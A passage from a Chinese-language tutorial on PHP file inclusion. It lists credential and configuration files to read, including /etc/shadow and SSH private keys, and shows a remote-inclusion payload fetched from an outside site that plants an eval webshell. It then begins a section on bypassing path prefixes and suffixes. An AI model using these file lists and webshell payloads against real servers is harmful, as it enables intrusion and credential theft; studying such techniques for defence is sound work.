 ###### 普通权限
```
/etc/passwd
/usr/local/app/apache2/conf/httpd.conf							// apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf		 // 虚拟网站设置
/usr/local/app/php5/lib/php.ini										  // PHP相关配置
/etc/httpd/conf/httpd.conf											   // apache配置文件
/etc/my.cnf																	   // Mysql的配置文件
/var/log/apache/error.log
/proc/self/environ
/var/log/
/var/log/apache/access.log
```

###### root权限:
```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_rsa.keystore
/root/.ssh/id_rsa.pub
/root/.ssh/known_hosts
/etc/shadow
/root/.bash_history
/root/.mysql_history
/var/log/wtmp
/var/run/utmp
```

### 远程包含shell
#### 前提：
目标主机的`allow_url_fopen`是激活的，那么就可以尝试**远程包含一句话木马**，假设我的一句话木马放在我的网站`http://www.2cto.com/echo.txt`上，代码如下：

```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[xxser]);?>")?>
```

这时候访问url：`http://www.xxser.com/index.php?page=http://www.2cto.com/echo.txt`,将会在`index.php`所在的目录生成`shell.php`,内容如下：

```php
<?php eval($_POST[xxser]);?>
```
这时候再用菜刀去连接即可

### 其余
一个web服务往往会用到多个其他服务，比如ftp服务，数据库等等。这些应用也会产生相应的文件，但这就需要具体情况具体分析咯。这里就不展开了

## 绕过姿势
接下来聊聊绕过姿势。平常碰到的情况肯定不会是简简单单的`include $_GET['file'];`这样直接把变量传入包含函数的。在很多时候包含的变量/文件不是完全可控的，比如下面这段代码**指定了前缀和后缀**

```php
<?php
	$file = $_GET['file'];
	include '/var/www/html/'.$file.'/test/test.php';
?>
```
